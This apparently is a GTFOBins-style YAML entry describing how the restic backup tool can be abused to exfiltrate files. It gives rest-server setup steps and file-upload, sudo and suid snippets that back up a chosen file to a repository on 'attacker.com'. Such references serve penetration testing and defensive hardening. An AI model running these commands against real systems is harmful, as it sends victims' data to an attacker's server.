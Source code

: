 ```yaml
---
description: |
  The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/index.html) is used but there are other options. To start a new instance and create a new repository:

  ```console
  RPORT=12345
  NAME=backup_name
  ./rest-server --listen ":$RPORT"
  restic init -r "rest:http://localhost:$RPORT/$NAME"
  ```

  To extract the data from the restic repository in the current directory on the attacker side:

  ```console
  restic restore -r "/tmp/restic/$NAME" latest --target .
  ```

  Upload data to the attacker server with the following commands.
functions:
  file-upload:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  sudo:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  suid:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        ./restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
---
```

